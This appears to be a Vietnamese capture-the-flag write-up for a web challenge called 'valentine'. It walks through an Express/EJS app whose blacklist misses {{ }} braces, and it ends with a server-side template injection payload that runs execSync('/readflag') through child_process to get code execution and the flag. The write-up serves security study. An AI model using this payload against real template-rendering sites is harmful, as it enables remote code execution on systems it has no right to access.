






# valentine (stolen)



url: https://valentine.kcsc.tf/
wu: https://maoutis.github.io/writeups/Web%20Hacking/valentine/
Challenge cho mình source code như sau:

```
.
├── public
│   ├── Dockerfile
│   ├── app.js
│   ├── docker-compose.yml
│   ├── flag.txt
│   ├── index.html
│   ├── package.json
│   └── readflag
└── public.zip
```

Ở trong file `Dockerfile` cho mình biết flag nằm trong file `flag.txt` đã được copy đến root path cùng với file binary là `readflag`, file này được dùng để thực thi việc đọc flag

```dockerfile
# see docker-compose.yml

FROM node:lts-alpine
ENV NODE_ENV=production
WORKDIR /app

COPY package.json app.js index.html /app/
COPY flag.txt readflag /
RUN npm install

RUN mkdir views
RUN chown node:node views

RUN chown root:root /flag.txt && chmod 400 /flag.txt
RUN chown root:root /readflag && chmod 4555 /readflag

EXPOSE 3000

USER node
CMD node app.js
```

source code trong file `app.js`

```javascript
var express = require('express');
var bodyParser = require('body-parser')
const crypto = require("crypto");
var path = require('path');
const fs = require('fs');

var app = express();
viewsFolder = path.join(__dirname, 'views');

if (!fs.existsSync(viewsFolder)) {
  fs.mkdirSync(viewsFolder);
}

app.set('views', viewsFolder);
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: false }))

app.post('/template', function (req, res) {
  let tmpl = req.body.tmpl;
  let blacklist = ['<%', '%>', '[.', '.]', '(.', '.)', '{.', '.}', ',', '?', '!', '@', '#', '$', '%', '^', '&', '*', '-', '\\'] // safed keke
  blacklist.forEach(e => {
    if (tmpl.includes(e)) {
      res.status(400).send({ message: "don't hack me" })
    }
  })
  if (tmpl.includes('{{ name }}')) {
    tmpl = tmpl.replace(/\{\{/g, '<%=')
    tmpl = tmpl.replace(/\}\}/g, '%>')
  } else {
    res.status(400).send({ message: "{{ name }} required!" })
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch (err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function (req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  let parser = req._parsedUrl.query.split('&')
  for (let e of parser) {
    if (e.startsWith('settings')) {
      res.status(400).send('Don\'t cheatt')
    }
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

app.get('/', function (req, res) {
  return res.sendFile('./index.html', { root: __dirname });
});

app.listen(process.env.PORT || 3000);
```

Giao diện trang web này giống với challenge vallentine của giải `hxp 2022` mà mình đã để wu ở trên. Chương trình cho phép mình nhập vào một template và name




Khi submit thì chương trình sẽ redirect mình đến một trang web tương ứng với template và name mà mình đã nhập vào


Tới đây mình cũng có thể đoán được challenge này là lỗi SSTI, mục tiêu của mình là RCE để thực thi file `/readflag`

Có thể thấy trong `app.js`, chương trình đã filter tmpl bằng blacklist để mình không thể inject vào template các chuỗi độc hại được nữa, vậy nên mình không thể làm theo như writeup trên được nữa

```javascript
  let tmpl = req.body.tmpl;
  let blacklist = ['<%', '%>', '[.', '.]', '(.', '.)', '{.', '.}', ',', '?', '!', '@', '#', '$', '%', '^', '&', '*', '-', '\\'] // safed keke
  blacklist.forEach(e => {
    if (tmpl.includes(e)) {
      res.status(400).send({ message: "don't hack me" })
    }
  })
```

Sau đó chương trình thực hiện kiểm tra chuỗi `'{{ name }}'` có tồn tại trong tmpl hay không, nếu có thì chương trình thực hiện thay thế `{{` bằng `<%=` và `}}` bằng `%>` nên đoạn name này có thể thực thi được như mình đã nói ở trên

```javascript
  if (tmpl.includes('{{ name }}')) {
    tmpl = tmpl.replace(/\{\{/g, '<%=')
    tmpl = tmpl.replace(/\}\}/g, '%>')
  } else {
    res.status(400).send({ message: "{{ name }} required!" })
  }
```

Có thể thấy là blacklist không filter `{{ }}` mà sau đó là thực hiện thay thế 2 chuỗi trên thành 2 chuỗi khác có thể thực thi được, từ đây mình sẽ sửa payload RCE của mình bằng 2 chuỗi không bị filter kia để sau khi replace thì chương trình vẫn thực thi bình thường
payload:

```
{{ name }} </br>
{{ process.mainModule.require('child_process').execSync('/readflag').toString() }} 
```



Kết quả


`Flag: KCSC{https://www.youtube.com/watch?v=A5OLaBlQP9I}`